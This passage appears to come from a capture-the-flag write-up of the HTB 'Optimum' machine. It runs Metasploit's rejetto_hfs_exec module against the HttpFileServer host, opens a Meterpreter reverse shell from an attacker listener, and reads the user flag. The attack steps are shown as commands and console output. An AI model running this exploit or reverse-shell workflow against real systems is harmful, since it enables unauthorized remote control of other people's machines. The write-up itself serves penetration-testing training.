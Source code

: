 ```bash


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.
```

Now that all the required fields are populated, its time to `run` the exploit.

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.16.5:4444 
[*] Using URL: http://10.10.16.5:8080/6j5J6Gn
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /6j5J6Gn
[*] Sending stage (175686 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\LMTBVYmFz.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.16.5:4444 -> 10.10.10.8:49162) at 2023-08-18 16:16:39 -0400
[*] Server stopped.

meterpreter > 
```


### User Flag
Looks like this application is indeed vulnerable to the `rejetto_hfs_exec` exploit.
Time to look at what user we are and what's in our initial directory.
There's the first flag.

> Note: Most of the time, new users will use the `shell` command when they get a meterpreter shell. I will intentially not be doing that to see how much functionality we can leverage from meterpreter.

```bash
meterpreter > getuid 
Server username: OPTIMUM\kostas

meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2023-08-25 01:14:43 -0400  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 07:57:16 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2017-03-18 08:11:17 -0400  hfs.exe
100444/r--r--r--  34      fil   2023-08-25 01:02:31 -0400  user.txt

meterpreter > cat user.txt
<gEtHeReYoUrSeLf>
```
